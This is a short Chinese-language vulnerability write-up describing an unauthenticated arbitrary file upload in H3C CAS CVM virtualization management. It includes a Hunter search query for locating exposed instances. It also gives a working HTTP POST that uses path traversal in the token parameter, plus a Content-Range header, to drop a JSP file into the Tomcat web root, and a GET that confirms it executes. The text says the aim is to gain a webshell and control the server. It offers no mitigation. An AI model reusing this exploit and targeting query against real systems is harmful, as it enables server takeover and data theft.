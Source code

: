 # H3C CVM 前台任意文件上传漏洞

# 一、漏洞简介
H3C公司依托其强大的技术实力、产品与服务优势，以及深入人心的以客户为中心的理念，为企业数据中心IaaS云计算基础架构提供最优化的虚拟化与云业务运营解决方案。通过H3C CAS CVM虚拟化管理系统实现数据中心虚拟化环境的中央管理控制，以简洁的管理界面，统一管理数据中心内所有的物理资源和虚拟资源，不仅能提高管理员的管控能力、简化日常例行工作，更可降低IT环境的复杂度和管理成本。H3C CVM存在任意文件上传漏洞，攻击者可以上传任意文件，获取webshell，控制服务器权限，读取敏感信息等。

# 二、影响版本
+ H3C CVM

## 三、资产测绘
+ hunter `app.name="H3C CAS 云服务"`
+ 特征

![1699805998553-a9cd393a-f4d8-407b-a39e-9d863f2a0095.png](./img/yHLjlsks1B1hI0Ja/1699805998553-a9cd393a-f4d8-407b-a39e-9d863f2a0095-146415.png)

## 四、漏洞复现
```plain
POST /cas/fileUpload/upload?token=/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/stc.jsp&name=222 HTTP/1.1
Host: xx.xx.xx.xx
Content-Range: bytes 0-10/20
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 23

<%out.print("99999");%>
```

![1699806057817-f90bda5b-4e38-4c2f-a7d7-d52d48f39cdf.png](./img/yHLjlsks1B1hI0Ja/1699806057817-f90bda5b-4e38-4c2f-a7d7-d52d48f39cdf-842579.png)

文件上传位置，请求需携带请求头Content-Range: bytes 0-10/20

```plain
GET /cas/js/lib/buttons/stc.jsp HTTP/1.1
Host: xx.xx.xx.xx
Content-Range: bytes 0-10/20
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

![1699806074843-f8eee24b-4127-482a-8146-396e97b5d5c6.png](./img/yHLjlsks1B1hI0Ja/1699806074843-f8eee24b-4127-482a-8146-396e97b5d5c6-942461.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nwfsvgilkdhpnsd0>